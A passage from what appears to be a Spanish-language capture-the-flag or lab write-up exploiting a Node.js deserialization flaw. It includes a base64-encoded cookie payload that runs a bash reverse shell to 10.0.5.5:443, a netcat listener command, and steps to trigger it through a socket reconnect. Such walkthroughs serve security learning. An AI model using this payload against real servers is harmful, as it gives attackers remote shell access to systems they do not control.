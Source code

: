 Metemos el payload en un archivo llamado payload y después lo pasamos a base64.

```bash
cat payload | base64 -w0
```

El resultado es este --> 
**eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcImJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMC41LjUvNDQzIDA+JjEnXCIsIGZ1bmN0aW9uKGVycm9yLHN0ZG91dCxzdGRlcnIpe30pfSgpIn0K**

Ahora nos ponemos en escucha con **netcat** en el puerto 443. 
```bash
nc -nlvp 443
```

Vamos al navegador y ponemos el payload en base64 como nuevo valor de la cookie.

![new-cookie](screenshots/new-cookie.png)


Nos vamos a la consola del navegador y una vez en ella, usamos socket para desconectarnos y volvernos a conectar, de este modo el servidor deserializará el payload y lo ejecutará.

![console-socket](screenshots/console-socket.png)
